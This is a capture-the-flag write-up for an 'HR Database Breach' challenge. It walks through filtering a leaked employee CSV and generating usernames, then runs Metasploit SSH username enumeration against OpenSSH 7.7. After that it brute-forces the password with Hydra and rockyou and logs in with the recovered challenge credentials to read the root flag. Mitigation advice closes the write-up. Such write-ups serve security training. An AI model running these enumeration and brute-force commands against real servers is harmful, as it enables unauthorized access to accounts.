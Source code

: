 # HR Database Breach - CTF Challenge Writeup

## Challenge Overview

**Difficulty:** Medium  
**Category:** Misc (Exploitation, Data Analysis)
**Points:** 500

### Challenge Description
After breaching the HR office, our hackers got their hands on a sensitive CSV database containing detailed records of all company employees: full names, email addresses, phone numbers, and more.

Your mission is to dig into this leaked data, identify a way in, and breach the main company server. The database might contain just what you need, if you know how to look.

**SSH Target:** `ssh <username>@ghctf.microclub.info -p 13502`

---

## Solution Walkthrough

This challenge requires a systematic approach combining data analysis, vulnerability research, and exploitation techniques. Here's how to solve it step by step:

### Step 1: Analyzing the Employee Database

First, examine the provided CSV file containing 1000 employee records with the following structure:
```
firstName,lastName,email,phoneNumber,department,address,salary,hireDate
```

The key insight is to focus on employees who would likely have system access - the IT department.

**Filter for IT Department Members:**
```bash
# Using grep to filter IT department employees
grep -i "IT" employees.csv > it_employees.csv

# Or using Python/pandas for more complex filtering
python3 -c "
import pandas as pd
df = pd.read_csv('employees.csv')
it_dept = df[df['department'].str.contains('IT', case=False, na=False)]
print(it_dept)
"
```

### Step 2: SSH Service Analysis

Next, investigate the SSH service running on the target server.

**Enumerate SSH Service:**
```bash
# Check SSH version and configuration
nmap -sV -p 13502 ghctf.microclub.info

# More detailed SSH enumeration
ssh-audit ghctf.microclub.info -p 13502
```

**Key Finding:** The SSH server is running **OpenSSH 7.7**, which is vulnerable to username enumeration attacks through timing-based side channels.

### Step 3: Username List Generation

From the IT department employee data, generate potential usernames using common naming conventions:

**Common Username Patterns:**
- `firstname` (e.g., `john`)
- `lastname` (e.g., `smith`)
- `firstname_lastname` (e.g., `john_smith`)
- `firstinitial + lastname` (e.g., `jsmith`)
- `firstname + lastinitial` (e.g., `johns`)

**Generate Username List:**
```bash
# Create usernames from IT employees (all lowercase)
python3 generate_usernames.py it_employees.csv > usernames.txt
```

Example Python script:
```python
import csv
import sys

def generate_usernames(csv_file):
    usernames = []
    with open(csv_file, 'r') as f:
        reader = csv.DictReader(f)
        for row in reader:
            first = row['firstName'].lower()
            last = row['lastName'].lower()
            
            usernames.extend([
                first,
                last,
                f"{first}.{last}",
                f"{first[0]}{last}",
                f"{first}{last[0]}"
            ])
    
    return list(set(usernames))  # Remove duplicates

if __name__ == "__main__":
    usernames = generate_usernames(sys.argv[1])
    for username in usernames:
        print(username)
```

### Step 4: SSH Username Enumeration

Use Metasploit's SSH username enumeration module to exploit the timing vulnerability:

**Launch Metasploit:**
```bash
msfconsole
```

**Configure the enumeration module:**
```
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS ghctf.microclub.info
set RPORT 13502
set USER_FILE usernames.txt
set THREADS 10
run
```

**Result:** The enumeration reveals that the username `kristin` exists on the system.

### Step 5: Cross-Reference with Employee Data

Check the IT department employees to identify who "kristin" is:
- Look for employees with first name "Kristine" in the IT department
- **Discovery:** Kristin is the most recently hired IT department member

### Step 6: Password Brute Force Attack

Now that we have a valid username, attempt to brute force the password:

**Using Hydra:**
```bash
hydra -l kristin -P /usr/share/wordlists/rockyou.txt \
      ghctf.microclub.info -s 13502 ssh -t 4 -V
```

**Using Metasploit:**
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS ghctf.microclub.info
set RPORT 13502
set USERNAME kristin
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 10
run
```

**Result:** The password `thalia` is found at line 2025 of the rockyou wordlist (a reference to GHCTF 2025 edition).

### Step 7: SSH Access and Flag Retrieval

**Establish SSH Connection:**
```bash
ssh kristin@ghctf.microclub.info -p 13502
# Password: thalia
```

**System Exploration:**
```bash
# Check current user and permissions
whoami
id

# Explore the file system
ls -la /
ls -la /home
ls -la /root
```

**Flag Retrieval:**
```bash
# The flag is located in /root/flag.txt
cat /root/flag.txt
```

---

## Key Learning Points

1. **Data Analysis**: Always analyze provided data files thoroughly - they often contain crucial information for the next steps.

2. **Service Enumeration**: Identifying specific software versions can reveal known vulnerabilities.

3. **Username Generation**: Understanding common naming conventions is crucial for username enumeration attacks.

4. **Timing Attacks**: OpenSSH 7.7 and earlier versions are vulnerable to timing-based username enumeration.

5. **Password Security**: Even in 2025, weak passwords from common wordlists remain a significant security risk.

## Tools Used

- **Data Analysis**: Python, pandas, grep
- **Network Enumeration**: nmap, ssh-audit
- **Exploitation**: Metasploit Framework
- **Password Attacks**: Hydra, Metasploit
- **System Access**: SSH client

## Mitigation Strategies

- **For SSH**: Upgrade to OpenSSH 8.0+ to mitigate timing-based username enumeration
- **For Passwords**: Implement strong password policies and multi-factor authentication
- **For Data Protection**: Encrypt sensitive databases and implement proper access controls
- **For User Management**: Regular audits of user accounts and permissions

**written by : Abderrahmane and Mounir **